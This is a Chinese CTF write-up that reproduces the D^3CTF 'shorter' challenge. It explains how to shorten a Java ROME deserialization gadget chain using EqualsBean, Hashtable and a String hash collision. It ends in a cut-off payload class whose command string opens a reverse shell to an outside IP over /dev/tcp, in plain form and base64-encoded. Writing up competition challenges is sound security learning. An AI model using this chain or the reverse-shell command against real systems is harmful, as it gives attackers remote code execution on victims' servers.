 

### 赛题复现
#### [D^3CTF]shorter
最近比赛出的一道java rome链反序列化题，这里复现一下
![](https://img-blog.csdnimg.cn/7c8c08796b26486b84e36a139e14bce5.png)
存在`baseStr.length() >= 1956`，而我们可以看一下通过ysoserial自带的链的长度
![](https://img-blog.csdnimg.cn/d59585b26d2845f9b2e807bf93b2e089.png)
很明显长了，那么需要缩短链长度，找到EqualsBean这条链，在cc7里的`Hashtable#reconstitutionPut`，有使用到equals方法
![](https://img-blog.csdnimg.cn/fa1599a00e634216862702b0568aa2e1.png)
在这里触发equals方法的，hash表中需要根据hash值来插入，如果要比较，需要满足两个对象的hash值相等
```java
    public int hashCode() {
        int h = hash;
        if (h == 0 && value.length > 0) {
            char val[] = value;

            for (int i = 0; i < value.length; i++) {
                h = 31 * h + val[i];
            }
            hash = h;
        }
        return h;
    }
```
第⼀个元素如果比第⼆个元素小1，第⼆个元素就必须比第⼀个元素大31，保证两个值的hash相等
HashMap的equals方法当中，当对象大于1时会转而调用类`java.util.AbstractMap#equals `
![](https://img-blog.csdnimg.cn/048103126daa4c62aa4a0f81ee50ed8e.png)
可以很明显看到这里调用了`value.equals`，这里value是遍历当前HashMap对象的值，m是比较的对象
![](https://img-blog.csdnimg.cn/f52098a1536d4e6d99d0cc302af221af.png)
此时不仅需要满足`value`为`EqualsBean`对象，还需要`m.get(key)`是一个TemplateImpl 对象
把两个map的value颠倒⼀下就可以了，即：`("aa"=>bean.equals("aa"=>templates))`
最后的payload：
```java
package rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class RomeSer2 {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception{
//        String cmd = "bash -i >& /dev/tcp/110.42.134.160/6666 0>&1";
        String cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTAuNDIuMTM0LjE2MC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}";
```